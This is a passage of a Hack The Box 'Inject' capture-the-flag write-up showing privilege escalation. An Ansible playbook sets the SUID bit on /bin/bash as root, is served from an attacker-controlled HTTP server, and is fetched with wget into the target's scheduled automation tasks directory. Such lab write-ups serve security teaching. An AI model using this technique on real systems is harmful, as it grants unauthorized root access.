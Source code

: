 [Priv-esc Ansible Automation Tasks](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/#privesc-with-automation-task)
&nbsp;  

```
┌──(matt㉿HackTheBoxKali)-[~/Inject]
└─$ vim not_evil.yaml
```
Open an empty YAML file with your text editor of choice.  
&nbsp;  

```
---
- hosts: localhost
  tasks:
    - name: Evil
      ansible.builtin.shell: |
       chmod +s /bin/bash
      become: true
```
Create an Ansible playbok using a valid YAML data structure. As you can see we will be using the Ansible built-in shell to execute the 'chmod +s /bin/bash' command, the become key signifies that Ansible should become root prior to executing the playbook contents.  
&nbsp;  

```                                                                                                                                            
┌──(matt㉿HackTheBoxKali)-[~/Inject]
└─$ python3 -m http.server 8010
Serving HTTP on 0.0.0.0 port 8010 (http://0.0.0.0:8010/) ...
10.10.11.204 - - [21/Jun/2023 20:42:26] "GET /not_evil.yaml HTTP/1.1" 200 -
```
Host your malicious Ansible playbook with a Python HTTP server or similar.  
&nbsp;  

```
phil@inject:/opt/automation/tasks$ wget http://10.10.14.8:8010/not_evil.yaml -O playbook_2.yml
<p://10.10.14.8:8010/not_evil.yaml -O playbook_2.yml
--2023-06-21 12:10:51--  http://10.10.14.8:8010/not_evil.yaml
Connecting to 10.10.14.8:8010... connected.
HTTP request sent, awaiting response... 200 OK
Length: 126 [application/octet-stream]
Saving to: ‘playbook_2.yml’

playbook_2.yml      100%[===================>]     126  --.-KB/s    in 0s      

2023-06-21 12:10:51 (859 KB/s) - ‘playbook_2.yml’ saved [126/126]

phil@inject:/opt/automation/tasks$ ansible-playbook playbook_2.yml --syntax-check
<sks$ ansible-playbook playbook_2.yml --syntax-check
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'

playbook: playbook_2.yml

```
Retrieve the playbook file from your Python3 HTTP server and write it to '/opt/automation/tasks' directory, run the ansible-playbook command with the ```--check-syntax``` flag to ensure your playbook file is valiud YAML.  
&nbsp;  


[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB Inject Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 21/06/2023 - 05:04 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)